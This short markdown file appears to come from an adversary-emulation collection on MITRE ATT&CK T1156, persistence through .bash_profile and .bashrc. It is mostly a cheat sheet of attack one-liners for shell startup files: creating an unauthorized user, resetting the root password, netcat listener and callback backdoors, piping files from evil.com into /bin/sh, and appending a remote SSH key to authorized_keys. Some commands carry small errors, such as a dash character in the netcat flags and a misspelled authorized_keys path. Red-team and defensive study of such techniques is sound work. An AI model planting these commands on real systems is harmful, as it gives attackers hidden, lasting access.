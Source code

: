 # .bash_profile and .bashrc

MITRE ATT&CK Technique: [T1156](https://attack.mitre.org/wiki/Technique/T1156)

* Adding an unauthorized user (useradd)
  * `useradd test && echo test:testpass | chpasswd`
* Changing the password to an existing user (noisy, passwd)
  * `echo root:NoLogon | chpasswd` (use nologon as pass word for a tiny bit of obscurity)
* Create a backdoor listener (netcat)
  * `nc –nlp 8080`
* Create a backdoor callback (netcat)
  * `nc 192.168.0.1 8080`
* Retrieve commands from a C2 server (wget or curl)
  * `wget https://evil.com/more/commands.txt | /bin/sh`
* Download additional tools and execute (wget or curl)
  * `wget https://evil.com/bad/executeable | /bin/sh`
* Add key to authorized_keys file (paste or get from remote server)
  * `echo $(wget https://evil.com/bad/ssh/key.txt) >> ~/.ssh/authotized_keys`
* Set an alias to do additional tasks
  * `alias ls='ls –al & <any command from above>'`
